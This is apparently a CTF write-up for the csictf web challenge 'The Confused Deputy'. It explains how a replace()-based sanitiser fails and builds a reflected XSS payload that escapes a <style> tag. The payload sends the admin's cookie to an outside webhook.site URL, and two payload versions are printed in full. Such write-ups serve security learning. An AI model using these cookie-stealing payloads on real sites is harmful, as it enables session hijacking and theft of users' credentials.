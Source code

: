 # The Confused Deputy

## Problem

```
Wow that's a pretty color! Don't you think? Pick your favourite and show it to the admin on /admin.

http://chall.csivit.com:30256
```

## Solution

We are taken to the `/view` endpoint, which is a page that takes in input and displays a corresponding colour.

![](images/deputy1a.PNG)

The challenge description also tells us to access another endpoint `/admin`. This brings us to a page where the "admin"
will visit a page URL that we give him, and also a `colour` input for the admin to submit.

![](images/deputy1b.PNG)

Immediately I thought of using reflected XSS to steal admin's cookie just like in redpwnCTF's `static-pastebin`. However
the sanitisation here would obviously be different, so we should examine the sanitisation function more in-depth via the
 source code of `/view`.

```javascript
<script>
    window.onload = () => {
        getCookie();
    };

    function dostuff() {
            const content = document.getElementById('colorize').value;
            const style = `<style> .show {background-image: none; background-color: ${sanitized(content)}}</style>`;
            document.head.innerHTML += (style);
        }

        function sanitized(content) {
            content = content.replace('<', '').replace('>', '');
            return content;
        }

        function getCookie() {
            document.getElementsByTagName('input')[0].setAttribute('value', document.cookie.split('password=')[1]);
        }
</script>
```

The `sanitized()` function uses the `replace()` function to prevent XSS by removing angle brackets `<` or `>`. However
it's usage is flawed/improper. As per this [page](https://www.w3schools.com/jsref/jsref_replace.asp), `replace()` only
replaces the ***first instance*** of the value, meaning we can trivially bypass this sanitisation by adding a pair of angle brackets
`<>` to the front of our payload.

Current `colour` payload:
```
<><img src=/ onerror="javascript:document.location='https://webhook.site/be022da0-4d21-4882-9dc3-051a5abe875d?c='+document.cookie"></img>
```


At this point, the payload still doesn't send anything to my webhook. Why is that so? After the payload is processed in 
`sanitized()`, it is wrapped up between `<style>` tags due to `dostuff()`.

![](images/deputy2.png)
(cr: thebongy)

As you can see above, the current payload bypasses the `sanitized()` but is stuck within the `<style>` tags.

For our XSS payload to execute, we need to break out of the `<style>` tags. This is simply done by adding `</style>` to 
the front and `<style>` to the back of our existing payload.

Final `colour` payload:
```
<></style><img src=/ onerror="javascript:document.location='https://webhook.site/be022da0-4d21-4882-9dc3-051a5abe875d?c='+document.cookie"></img><style>
```

We submit our payload to admin, with the URL input as `http://chall.csivit.com:30256/view`, and our webhook site should
retrieve the cookie that contains the flag.

![](images/deputy_flag.PNG)

**Flag**: `csictf{cssxss}`

&nbsp;

#### References:
* https://www.w3schools.com/jsref/jsref_replace.asp
